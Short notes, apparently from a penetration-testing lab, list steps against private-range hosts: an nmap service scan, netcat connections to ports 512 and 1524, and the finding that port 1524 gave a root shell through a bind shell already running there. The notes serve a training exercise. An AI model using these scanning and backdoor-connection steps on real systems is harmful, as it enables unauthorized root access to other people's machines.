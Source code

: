 
- cat /etc/hosts
- nmap -sV -p1-10000 10.2.20.22 
- check each port
- netcat 10.2.20.22 512
- netcat 10.2.20.22 1524
- nc 10.6.30.156 1524
	- we got root connection
	- Why did we receive a shell? We received a shell because the port was running a bind shell.
